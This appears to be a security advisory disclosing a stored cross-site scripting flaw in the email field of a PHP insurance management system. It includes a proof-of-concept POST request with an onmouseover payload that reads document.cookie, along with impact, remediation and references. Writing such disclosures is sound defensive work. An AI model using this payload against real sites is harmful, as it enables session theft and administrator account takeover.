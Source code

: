 # Stored Cross-Site Scripting Vulnerability in SourceCodester Online Insurance Management System

## Vendor and Product Information:

- **Vendor:** Sourcecodester
- **Product:** Insurance Management System
- Product URL: [Insurance Management System](https://www.sourcecodester.com/php/16995/insurance-management-system-php-mysql.html)

## Executive Summary

Stored Cross-Site Scripting (SXSS) vulnerability in Insurance Management System 1.0 and earlier allows attacker to inject the Malicious JavaScript Code in the "Email" input field. The malicious code can then be executed whenever the vulnerable web page is accessed by any user, staff or even admin and will remain persistent. It will eventually result in account takeover as the session cookies can be accessed by the malicious JavaScript Code.

## Issue Details

- **Vulnerability Name:** Stored XSS in Email
- **Severity: High**
- **Affected URL:** http://localhost/e-insurance/Script./core/new_account
- **Affected Parameter:** email
- **HTTP Method:** POST

## Issue Description

The web application is vulnerable to Cross-Site Scripting (SXSS) attacks in the "Email" input field. An attacker can exploit this vulnerability by inputting the malicious JavaScript code in the HTTP POST request to create the user. In the provided example, the attacker modifies the "Email" parameter to insert a malicious JavaScript Code that can also access the authentication cookies.

## Proof Of Concept

1. Configure a web proxy in your browser.
2. Navigate to the URL in the browser http://localhost/e-insurance/Script./ and click on “**New Account**”.
3. Fill in the desired data in the input fields and click on Create Account. Intercept the request in the web proxy. Modify the **email** parameter as shown below and send the request to the server.
    
    ```bash
    fname=demo&lname=Demo&gender=Male&phone=889790987&city=Demo&street=Demo&email=<h1+onmouseover=confirm(document.cookie)>Demo</h1>@demo.com&password=12345678&submit=1
    ```
    
4. The account is successfully created.
5. In the browser having admin account logged in, navigate to the users section and see the XSS being executed with the authentication cookies as well, which will result in the Account Takeover of **Admin.**

https://drive.google.com/file/d/1yTIeXAPs3PJcQwj9gxhvs92zTdBwKGVB/view?usp=sharing

## Payload:

```bash
fname=demo&lname=Demo&gender=Male&phone=889790987&city=Demo&street=Demo&email=<h1+onmouseover=confirm(document.cookie)>Demo</h1>@demo.com&password=12345678&submit=1
```

## Request:

```bash
POST /e-insurance/Script./core/new_account HTTP/1.1
Host: localhost
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Content-Type: application/x-www-form-urlencoded
Content-Length: 350
Cookie: PHPSESSID=klf9ln8ogrll5cv5gdusqnln9u; __insuarance__logged=1; __insuarance__key=AGURMU83J20CB8T91A05

fname=demo&lname=Demo&gender=Male&phone=889790987&city=Demo&street=Demo&email=<h1+onmouseover=confirm(document.cookie)>Demo</h1>@demo.com&password=12345678&submit=1
```

## Impact:

Stored XSS attacks can have serious consequences, such as Account takeover by stealing cookies, stealing sensitive data, modifying the content of the web page, or redirecting users to a malicious sites. 

## Remediation:

Implement proper input validation and output encoding to prevent malicious code from being injected into the web application. Use server-side validation to ensure that user input is properly sanitized before being stored in a database or displayed on a web page. Use output encoding to ensure that any user input that is displayed on the web page is properly encoded to prevent malicious code from being executed.

## References:

https://portswigger.net/web-security/cross-site-scripting/stored

https://owasp.org/www-community/attacks/xss/

## Weakness Enumeration:

[CWE-79](https://cwe.mitre.org/data/definitions/79.html)

---

This report highlights the Stored XSS vulnerability present in the email parameter of http://localhost/e-insurance/Script./core/new_account, including the Proof of Concept, its impact, remediation steps and references for further guidance on mitigation strategies.